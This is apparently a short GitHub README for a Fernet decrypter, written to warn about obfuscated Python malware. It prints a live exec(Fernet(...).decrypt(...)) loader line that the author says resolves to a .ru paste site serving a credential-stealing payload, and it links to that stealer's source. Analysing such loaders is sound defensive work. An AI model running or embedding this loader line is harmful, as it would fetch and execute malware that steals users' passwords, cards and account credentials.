 ## fernet decrypter
this code is simply to decode any type of fernet code that would usually run malware on your computer using python.

## example of malicious code
`;exec(Fernet(b'q7MBuNUXpnt4GH9rHx3rNM1_HFsACuJIk1ZCLPBpU7I=').decrypt(b'gAAAAABk8g4eRFjyGDEmrLhaqqcXsILFNwp4eMaESVA1JWnfoVNhhSPBV_1ngtqebygT9MrIQ95jI1aR1fTfmknlOBY_bumaE8dAZ4WotYGKn0K-cRje6R3Ny4G75lRs8bgV5vv50fD0DtiWTKVsT4VP_FeUHA3so_StnOnG-rgPUWkIgiaX9UdRExOsX0eSqzHxP-88zENWuWdYNOflCmEDVdYOhuxYSg=='))`

if we break this code down it shows the normal python type of execution which is using a fernet key and an encrypted message to decoded a message using fernet library. when this code is ran through the decrypter it prints out a website `https://bananasquad.ru/paste`. when entering this site it shows again the same method of execution but now with a much longer encrypted message which when decoded shows a malicious python code that will steal every data on your computer such as passwords, credit card, discord credentials and so on. after downloading the stealer file ([stealer example](https://github.com/Nezar187/Fernet-Decrypter/blob/main/example%20stealer/stealer.py)) it reruns the fernet request with a new token and key.

at this point im to lazy to explain further on but in conclusion you should always look out for this type of method for execution.
